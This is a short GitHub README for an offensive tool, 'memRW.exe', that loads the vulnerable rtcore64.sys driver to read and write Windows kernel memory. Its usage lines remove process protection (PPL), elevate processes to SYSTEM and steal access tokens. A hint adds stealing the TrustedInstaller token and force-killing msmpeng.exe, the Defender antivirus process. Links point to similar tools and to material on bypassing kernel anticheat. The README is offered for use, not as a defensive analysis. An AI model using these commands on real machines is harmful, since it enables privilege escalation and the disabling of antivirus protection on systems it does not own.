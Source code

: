 # rtcore-fpc
Playing with unsecured driver(s) allowing read/write to kernel memory.</br></br>
For now, playing with EPROCESS :</br>
-removing PPL flag</br>
-stealing system token</br>
</br>

memRW.exe load "%cd%\rtcore64.sys"</br>
memRW.exe list</br>
memRW.exe removeppl PID</br>
memRW.exe makesystem PID</br>
memRW.exe stealtoken from_pid to_pid</br>
memRW.exe unload "%cd%\rtcore64.sys"</br>
</br>

Hint : stealtoken from trustedinstaller.exe (net start) and taskkill /f /im msmpeng.exe.

Greatly inspired by https://github.com/RedCursorSecurityConsulting/PPLKiller </br>

Tools to check EPROCESS struct : https://ntdiff.github.io/ </br>

Detailed EPROCESS struc : https://www.geoffchappell.com/studies/windows/km/ntoskrnl/structs/eprocess/index.htm </br>

Bunch of other drivers to look at : https://guidedhacking.com/threads/how-to-bypass-kernel-anticheat-develop-drivers.11325/ </br>

Must read (mimikatz 4 ever...) : https://posts.specterops.io/mimidrv-in-depth-4d273d19e148 </br>
